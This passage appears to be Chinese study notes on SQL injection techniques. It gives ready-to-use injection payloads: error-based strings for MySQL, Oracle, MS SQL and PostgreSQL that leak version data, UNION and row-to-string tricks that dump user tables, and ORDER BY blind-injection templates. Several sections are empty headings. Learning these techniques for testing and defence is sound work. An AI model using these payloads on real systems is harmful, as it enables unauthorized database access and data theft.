 2、改用布尔盲注：`OR(SELECT*FROM users LIMIT 1)>(SELECT 1,'a',1)`（MS SQL不支持）

3、MySQL使用列别名：`` UNION SELECT `2` FROM(SELECT 1,2,3 UNION SELECT*FROM users LIMIT 1,1)a ``

4、各种方法将查询记录转换为字符串：

  PostgreSQL：用::text  `UNION SELECT t::text FROM (SELECT * FROM users LIMIT 1) AS t`

  MS SQL：用FOR XML或FOR JSON子句  `UNION SELECT(SELECT*FROM(SELECT*FROM users)a FOR XML PATH)`

  Oracle：用JSON_OBJECT函数  `UNION SELECT JSON_OBJECT(*) FROM (SELECT * FROM users)`

### 报错注入(WoftoM)

**原理**：由于处理 sql 查询时未处理好错误信息，可以通过故意引发数据库产生错误导致有关系统的信息泄露

**基本方式**:1. 尝试初始错误，添加`'`或条件错误查看`1/0`是否会出现详细错误信息  2.根据错误信息的特有语法、关键字或函数（例如 `version()` vs `@@version`），判断数据库的类型 3. 在可以报错的函数中中内嵌查询信息请求，将所需信息从错误信息中带出来

**典型 payload(得到数据库类型)：**


1. MySQL

   
   1. `' AND EXTRACTVALUE(1,CONCAT(0X7e,(SELECT @@VERSION)))--`
   2. `' AND UPDATEXML(1,CONCAT(0x7e,(SELECT @@version)),1)--`
2. Oracle

   
   1. `' AND 1=UTL_INADDR.get_host_name((SELECT banner FROM v$version WHERE rownum=1))--`
   2. `' AND 1=CTXSYS.DRITHSX.SN(1,(SELECT banner FROM v$version WHERE rownum=1))--`
3. MS SQL

   
   1. `' AND 1=CONVERT(int,@@version)--`
4. PostgreSQL

   
   1. `' AND 1=CAST((SELECT version()) AS int)--`

      \

### 布尔盲注

### 时间盲注

### 堆叠注入

### Order by 注入 (lq)

用户可以控制的输入被直接拼接到 order by 语句后。

#### 1、基于盲注

通过构造case或if语句，根据排序的结果判断条件是否正确。 

当字段名已知：

```sql
order by if(判断条件, column1, column2)
order by (case when (判断条件) then column1 else column2 end)
```
